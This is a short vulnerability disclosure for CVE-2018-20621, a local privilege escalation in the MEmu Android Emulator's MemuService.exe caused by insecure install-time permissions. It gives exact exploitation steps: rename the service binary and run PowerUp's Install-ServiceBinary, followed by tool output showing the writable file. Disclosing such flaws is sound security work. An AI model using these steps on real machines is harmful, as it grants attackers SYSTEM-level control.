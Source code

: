 # CVE-2018-20621: MEmu Android Emulator Local Privilege Escalation

<!---
Remember to end each line under the "Information" header with 2 space characters ("  ") to tell Markdown to break the line.
--->
## Information
**Description:** The MemuService.exe service binary is vulnerable to local privilege escalation.    
**Versions Affected:** 6.0.6  
**Researcher:** David Yesland (https://twitter.com/daveysec @daveysec)  
**Disclosure Link:** NA  
**NIST CVE Link:** NA

## Proof-of-Concept Exploit
### Description
The MemuService.exe service binary is vulnerable to local privilege escalation through binary planting due to insecure permissions set at install time. This allows code to be run as NT AUTHORITY/SYSTEM.


### Usage/Exploitation
Rename `C:\Program Files\Microvirt\MEmu\MemuService.exe` to `MemuService.exe.old`. Then using PowerShellEmpire PowerUp run `Install-ServiceBinary -Name 'MEmuSVC'`.  

### Detail
```
ServiceName                     : MEmuSVC
Path                            : C:\Program Files\Microvirt\MEmu\MemuService.exe
ModifiableFile                  : C:\Program Files\Microvirt\MEmu\MemuService.exe
ModifiableFilePermissions       : {WriteOwner, Delete, WriteAttributes, Synchronize...}
ModifiableFileIdentityReference : Everyone
StartName                       : LocalSystem
AbuseFunction                   : Install-ServiceBinary -Name 'MEmuSVC'
CanRestart                      : False
```
